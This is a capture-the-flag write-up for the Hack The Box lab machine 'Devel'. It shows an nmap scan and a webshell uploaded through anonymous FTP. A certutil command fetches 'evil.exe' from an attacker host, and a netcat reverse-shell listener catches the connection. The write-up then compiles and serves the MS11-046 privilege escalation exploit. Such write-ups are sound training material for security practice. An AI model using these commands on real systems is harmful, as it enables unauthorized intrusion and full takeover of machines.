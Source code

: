 ```yaml
---
title: CTF Writeup - HTB Devel
date: 2023-11-13
author: kei5uke
description: Writeup for HTB Devel
tags:
  - windows
  - writeup
---
```


# Devel

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/devel]
└─# nmap -sV -sC -T4 -p- 10.129.105.132 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 18:41 EET
Nmap scan report for 10.129.105.132
Host is up (0.054s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.43 seconds
```

## FTP

FTP is readable and writeable

![Screenshot 2023-11-13 at 18.48.24.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_18.48.24.png)

I uploaded command aspx file from /usr/share/webshells/ 

Looks like its working. But I need a proper shell.

![Screenshot 2023-11-13 at 19.09.35.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.09.35.png)

I used the command below:

```bash
certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
```

![Screenshot 2023-11-13 at 19.24.09.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.24.09.png)

![Screenshot 2023-11-13 at 19.24.53.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.24.53.png)

I got first shell.

```bash
┌──(root💀kali)-[/opt/generic]
└─# rlwrap nc -lvnp 21                                                         
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.105.132] 49186
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

# Privilege Escalation

sysinfo

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/11/2023, 6:40:33 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.063 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.142 MB
Virtual Memory: In Use:    999 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.105.132
                                 [02]: fe80::303f:619:f6ed:cb15
                                 [03]: dead:beef::b027:6d8a:fa22:9574
                                 [04]: dead:beef::303f:619:f6ed:cb15
```

I found the usable script.

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)

Compiled the script and downloaded.

```bash
┌──(root💀kali)-[/opt/generic]
└─# i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
                                                                                                                              
┌──(root💀kali)-[/opt/generic]
└─# python3 -m http.server 80                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.105.132 - - [13/Nov/2023 19:41:01] "GET /MS11-046.exe HTTP/1.1" 200 -
```

# Root shell

![Screenshot 2023-11-13 at 19.43.39.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.43.39.png)

# Note

You can try asp or aspx for getting reverse shell.

Old windows tends to be easily exploitable with just one script.